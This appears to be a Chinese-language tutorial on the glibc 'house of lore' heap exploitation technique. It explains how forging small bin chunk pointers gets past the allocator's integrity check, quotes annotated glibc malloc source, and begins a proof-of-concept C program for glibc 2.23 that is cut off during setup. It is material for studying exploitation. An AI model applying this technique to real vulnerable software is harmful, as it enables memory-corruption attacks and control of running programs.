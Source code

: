# house of lore

`house of lore`是针对`small bin`的一种攻击方法，和`unsorted bin attack`与`large bin  attack`很类似。个人感觉称之为`small bin attack`也没啥问题。

一句话描述该攻击方式：正常情况下，`small bin`取出一个`chunk`的时候会从末尾取出，这个`victim`的`bk`指针指向的是倒数第二个`chunk`，称为`bck`。此时检查`bck`的`fd`指针是否指向`victim`，通过检查后将`victim`取出，并将`bck`的`fd`指针指向`small bin`。若我们控制`victim`的`bk`指针，使其指向一个我们控制的`fake_chunk`，那么只需要控制该`fake_chunk`的`fd`指针指向了`victim`，这样以来便可以在取出`victim`的时候，将`fake_chunk`挂入`small bin`中。注意，取出`fake_chunk`的时候又需要经过`small bin`的检查，因此再此构造一个`fake_chunk2`，将`fake_chunk2`的`fd`指针指向`fake_chunk`，`fake_chunk`的`bk`指向`fake_chunk2`即可。

`small bin`取出的过程如下：

```c
if (in_smallbin_range(nb)) // 请求的大小位于smallbin
    {
        idx = smallbin_index(nb); // 请求的大小属于哪一个smallbin，找到下标idx
        bin = bin_at(av, idx);    // 通过下标找到具体的这个bin

        if ((victim = last(bin)) != bin) // last宏就是#define last(b) (b->bk)，因此就是定位到smallbin的最后一个chunk，而且smallbin不为空（bin->bk!=bin）
        {
            if (victim == 0) /* initialization check */
                             // 假如smallbin为空，那么这里不会进行分配，要到后面unsortedbin。合并所有的fastbin chunk，合并到unsorted bin里面去
                malloc_consolidate(av);
            else // 定位到了这个smallbin，取出里面的一个chunk，从队尾开始取
            {
                bck = victim->bk;                        // bck是victim的bk，也就是倒数第二个
                if (__glibc_unlikely(bck->fd != victim)) // bck的fd假如不为victim说明出错
                {
                    errstr = "malloc(): smallbin double linked list corrupted";
                    goto errout;
                }
                set_inuse_bit_at_offset(victim, nb); // 取出这个victim。也就是队尾的这一个。
                bin->bk = bck;                       // 取出后，bin的bk将会变成倒数第二个chunk
                bck->fd = bin;                       // 取出后，倒数第二个chunk将会指向small bin

                if (av != &main_arena) // 假如不是在主线程(main_arena)，添加上不是在main_arena的标记
                    victim->size |= NON_MAIN_ARENA;
                check_malloced_chunk(av, victim, nb);
                void *p = chunk2mem(victim); // 获得指向可用区域的指针
                alloc_perturb(p, bytes);
                return p; // 返回该指针
            }
        }
    }
```

笔者在`glibc 2.23`下，使用了以下代码成功完成攻击：

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
    long fake_chunk[0x110]; // 在栈上伪造一个fake chunk，最终申请到这里表示攻击成功
    long fake_chunk2[0x110]; // 需要fake_chunk2，作用是最后从small bin中取出fake_chunk的时候，逃避检查
    printf("the addr of fake chunk is %p\n", fake_chunk);
    long* a = malloc(0x100); // 申请一个属于small bin的chunk
    malloc(0x20); // 防止被top chunk合并
    free(a); // chunk a会被置入 unsorted bin
    malloc(0x120); // 申请一个大chunk，这会让chunk a置入small bin 

```